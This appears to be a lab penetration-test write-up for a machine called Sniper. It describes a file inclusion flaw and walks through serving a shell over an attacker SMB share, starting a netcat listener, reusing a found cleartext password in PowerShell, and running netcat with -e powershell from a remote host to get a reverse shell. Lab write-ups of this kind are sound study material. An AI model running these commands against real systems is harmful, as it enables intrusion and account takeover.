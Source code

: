 
# Executive Summary – Sniper 
A vulnerability was discovered in the web application that allows the server to reveal and access files it should keep private. During testing, this weakness allowed the application to retrieve files from external sources, which in turn exposed sensitive information such as user credentials. These credentials were then used to access a local account on the server. Because the exposed credentials could potentially be reused across other systems, this creates a credible risk for an attacker to move laterally within the network and gain access to additional systems or sensitive data.

# Remote File Inclusision 

## Description
To do 


## Impact 
High. The vulnerability allowed disclosure of confidential information (including cleartext credentials and user identifiers) via file inclusion. Those credentials were validated against a host account, enabling account takeover of a local user. With valid credentials and file‑disclosure capability, an attacker could perform lateral movement, access sensitive data, and — in worst‑case scenarios — achieve remote command execution on other systems. This has direct consequences for confidentiality, integrity, and availability of the affected environment.

## Likelihood:
The filename-construction pattern (user_input + extensions → blog-es.php) is a well-known indicator that testers and attackers will probe for Local File Inclusion (LFI). Because the application builds filenames from user-controlled input, the probability that an attacker can manipulate this to read arbitrary local files is high unless the input is strictly validated or mapped to a whitelist.


## Evidence:

1. Turn on Bupr Suite and suite and change to a known windows location. As you can see we have exposure of file. 
    <img src="images/LFI-test.png" alt="LFI test">

2. Turn Public folder into SMB and upload Remote Code Execution shell 
    impacket-smbserver -smb2support SMB1 /home/franky/Public 
3. Create reverse shell and upload file to smb folder
4. Start Netcat `nc -lvnp 1234`
5. Upload file to server 
    <img src="images/smb-upload-test.png" alt="smb upload">
6. Look for files on server and will find a password 
<img src="images/password.png" alt="password found">
7. Change dirctory to C:\Users to find other user Chris 
8. Creates a PSCredential for SNIPER\Chris using password we found and uses it to remote machine SNIPER as Chris. 

` $pass = "36mEAhz/B8xQ~2VM"`
`$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force`
`$cred = New-Object  System.Management.Automation.PSCredential("SNIPER\\Chris", $pass) `
Check to see if it was successful 
` Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {whoami} `

9. Run netcat from an SMB share on SNIPER (authenticating as $cred) to create a reverse PowerShell shell back to our machine as Chris. 

` Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {\\10.10.16.34\smb1\nce.exe 10.10.16.34 9001 -e powershell}`

Note: If have issues use Test-Path to see if issue with acessing SMB 

<img src="images/rce-chris.png" alt="rce chris">

Have access to the user Chris terminal  

<img src="images/Chris connection.png" alt="chris">






